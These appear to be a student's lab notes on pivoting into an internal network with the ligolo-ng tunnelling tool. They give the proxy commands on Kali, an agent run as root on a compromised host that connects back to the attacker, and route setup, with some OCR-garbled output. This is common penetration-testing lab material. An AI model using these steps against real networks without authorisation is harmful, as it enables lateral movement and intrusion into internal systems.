   

on Kali

```SQL
sudo ip tuntap add user phd_yeyy  mode tun ligolo
sudo ip link set ligolo up
./proxy  -selfcert
```

╭─phd_yeyy@kali-1-vm /home/phd_yeyy/ligolo-ng ‹system›  
╰─$ ./proxy -selfcert  
WARN[0000] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC!  
WARN[0000] Using self-signed certificates  
ERRO[0000] Certificate cache error: acme/autocert: certificate cache miss, returning a new certificate  
WARN[0000] TLS Certificate fingerprint for ligolo is: CA84094C7322BD735406477344710703BBDE36042DA132863CFCC82FE6D797C1  
INFO[0000] Listening on 0.0.0.0:11601  
__ _ __  
/ / (_)___ _____ / /___ ____ ____ _  
/ / / / __ `/ __ \\/ / __ \\______/ __ \\/ __` /  
/ /_/ / // / // / / /_/ /_**/ / / / /_/ /**_  
_**/**_/_/\__, /\**/**_**/\**_/ // /_/\__, /  
/**/ /**/

Made in France ♥ by @Nicocha30!  
Version: 0.7.2-alpha

  

  

On Host1

```SQL
root@vpn:/home/offsec# ./agent  -connect KaliIP:11601 -ignore-cert
```

  

On Kali

```SQL
ligolo-ng »
ligolo-ng » session
? Specify a session : 1 - root@vpn - 192.168.213.122:37118 - 3fa6af1f-09fd-4e95-9a71-e8c4b
9ed4669
ligolo-ng »  ifconfig
```

[Agent : root@vpn] » ifconfig  
┌────────────────────────────────────┐  
│ Interface 0 │  
├──────────────┬─────────────────────┤  
│ Name │ lo │  
│ Hardware MAC │ │  
│ MTU │ 65536 │  
│ Flags │ up|loopback|running │  
│ IPv4 Address │ 127.0.0.1/8 │  
│ IPv6 Address │ ::1/128 │  
└──────────────┴─────────────────────┘  
┌───────────────────────────────────────┐  
│ Interface 1 │  
├──────────────┬────────────────────────┤  
│ Name │ tun0 │  
│ Hardware MAC │ │  
│ MTU │ 1500 │  
│ Flags │ pointtopoint|multicast │  
└──────────────┴────────────────────────┘  
┌───────────────────────────────────────────────┐  
│ Interface 2 │  
├──────────────┬────────────────────────────────┤  
│ Name │ ens160 │  
│ Hardware MAC │ 00:50:56:bf:34:55 │  
│ MTU │ 1500 │  
│ Flags │ up|broadcast|multicast|running │  
│ IPv4 Address │ 192.168.213.122/24 │  
└──────────────┴────────────────────────────────┘  
┌───────────────────────────────────────────────┐  
│ Interface 3 │  
├──────────────┬────────────────────────────────┤  
│ Name │ ens192 │  
│ Hardware MAC │ 00:50:56:bf:fd:1d │  
│ MTU │ 1500 │  
│ Flags │ up|broadcast|multicast|running │  
│ IPv4 Address │ 172.16.213.122/24 │  
└──────────────┴────────────────────────────────┘

  

find internal IP for Kali: 172.16.213.122/24

so open new terminal on kali

```SQL
 change 122 to 0
 sudo ip route add  172.16.213.0/24 dev ligolo
 ip route list
```

  

back inside of ligolo

└──────────────┴────────────────────────────────┘  
[Agent : root@vpn] » start  
INFO[0689] Starting tunnel to root@vpn  
[Agent : root@vpn] » ifconfig

  

from kali you can accee any VM in internal